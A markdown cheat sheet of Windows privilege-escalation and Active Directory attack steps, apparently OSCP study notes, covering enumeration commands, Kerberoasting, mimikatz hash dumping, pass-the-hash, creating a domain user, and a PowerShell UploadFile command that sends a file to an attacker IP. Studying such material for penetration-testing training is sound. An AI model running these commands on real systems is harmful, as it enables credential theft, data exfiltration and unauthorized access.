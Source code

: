 # Windows PrivEsc 

**Step 1** 

Review PrivEsc Mind map

https://github.com/hxhBrofessor/PrivEsc-MindMap/blob/main/windows-mindMap.JPG 

**Step 2** 

Look around the file system!!! 

Check installed programs in `C:\Program Files` or `C:\Program Files (x86)`

**Step 3** 

Determine architecure
`systeminfo` 
or 
`$Env:PROCESSOR_ARCHITECTURE` 

*AMD64 for 64-bit and x86 for 32-bit*

**Step 4**
Run [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

**Step 5**
Run [adPEAS](https://github.com/61106960/adPEAS)

**Step 6**
Begin manual review if still no leads 

## Active Directory Methodology 
https://s0cm0nkey.gitbook.io/s0cm0nkeys-security-reference-guide/red-offensive/testing-methodology/active-directory

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md

### Mind set notes for OSCP
What users are on the domain? net users /domain
What groups are configured on the domain? net group /domain
Who are the administrators (domain admins?) net group "Domain Admins"
What SPNs are configured on the host? GetSPNs.py 

Kerberoasting - List out the SPNs on the domain and if there are any that are specifically calling to another host/port within the domain, could be kerberoastable.

Credentials in Memory - run mimikatz and see if any of the accounts you enumerated at first show up. Try cracking the NTLM hash, or passing the hash through something like psexec.py or evil-winrm.

## Basics 

[Manual Enum Guide](https://fuzzysecurity.com/tutorials/16.html)

[Password Attacks](https://medium.com/@kuwaitison/local-password-attack-and-credentials-theft-for-windows-linux-5764a1a25363)

`systeminfo | findstr /B /C:"OS Name" /C:"OS Version"`

`whoami /all` 

`whoami /groups` 

`whoami /priv` 

`net users` 

`net localgroup`

`netstat -ano` 

`dsacls "DC=htb,DC=local"` 

## Scheduled Tasks 

### generate file 
`schtasks /query /fo LIST /v > scheduled-task.txt`

### transfer off Windows
`powershell (New-Object System.Net.WebClient).UploadFile('http://192.168.49.192/upload.php', 'scheduled-task.txt')` 

### Grep results on Kali
`grep -i "SYSTEM" scheduled-task.txt -B 5 -A 5` 

## Services 

`wmic service list brief` 

`tasklist /v /fi "username eq system` 

`sc query state= all | findstr "SERVICE_NAME:" >> Services.txt` 

`wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """` 

## AlwaysInstallElevated 
`reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated`

`reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated` 


### Users
`net user`
`net user hacker password /add /domain` 

### Groups 
`net group "group name"`

`net group "Exchange Windows Permissions" /add account_name` 

## Passwords
### powershell recursive grep like search
`ls -R -Hidden -EA SilentlyContinue | select-string <search string>`

### Get password hashes from mimi. 
`lsadump:​:lsa /patch`

## Metasploit module for exploit suggestions
`post/multi/recon/local_exploit_suggester` 

## Tools to run
[WinPeas](https://github.com/carlospolop/PEASS-ng/releases/tag/20230101)

[Watson for kernel exploit suggestions](https://github.com/rasta-mouse/Watson, https://0xdf.gitlab.io/2019/03/05/htb-devel.html)

[Bloodhound](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-with-bloodhound-on-kali-linux)

[Powerview](https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/#ad-enumeration-with-powerview)

[Windows exploit suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

[Sherlock](https://github.com/rasta-mouse/Sherlock)

[How to use Sherlock](https://0xdf.gitlab.io/2021/03/17/htb-optimum.html)

[JAWS][(ttps://github.com/411Hall/JAWS)
